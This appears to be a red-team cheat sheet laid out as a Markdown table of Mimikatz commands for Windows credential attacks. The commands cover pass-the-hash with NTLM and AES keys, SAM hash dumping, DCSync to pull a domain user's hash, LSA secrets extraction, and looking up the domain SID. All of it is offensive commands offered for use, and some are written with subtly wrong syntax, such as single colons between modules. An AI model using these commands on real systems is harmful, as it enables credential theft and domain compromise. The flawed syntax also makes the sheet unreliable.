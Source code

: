 # Mimikatz
## MIMIKATZ CREDENTIAL MANIPULATION
| Description | Command |
|-------------|---------|
| Mimikatz PTH (Runs specified binary with PTH credentials). Must be run as SYSTEM | `mimikatz.exe "sekurlsa:pth /user:<USERNAME> /domain:<DOMAIN> /ntlm:<NTLM_HASH> /run:<FILE_PATH>" exit` |
| Mimikatz hashdump. Must be run as SYSTEM | `mimikatz.exe "lsadump:sam" exit` |
| PTH with AES128/256 bit keys. AES128/256 bit keys can be obtained via DCSync | `mimikatz.exe sekurlsa:pth /user:<USERNAME> /domain:<DOMAIN> /ntlm:<NTLM_HASH> /aes128:<AES128_HASH> /aes256:<AES256_HASH>` |
| Extract domain SID from Active Directory object | `wmic group where name="Domain Admins" get name,sid,domain`<br>or<br>`reg query HKU to retrieve logged in domain user SIDs (which contain domain SID)`<br><br>Result of above commands:<br>S-1-5-21-520640528-869697576-4233872597-1532<br><br>The Domain SID Portion Is:<br>S-1-5-21-520640528-869697576-4233872597 |
| Remote dump hash for specific user account (Administrators, Domain Admins, or Enterprise Admins are able to remotely DCSync) | `mimikatz.exe "lsadump:dcsync /domain:<DOMAIN_FQDN> /user:<USERNAME>"` |
| Get the SysKey to decrypt SECRETS entries (from registry or hives) | `mimikatz.exe "lsadump:secrets"` |
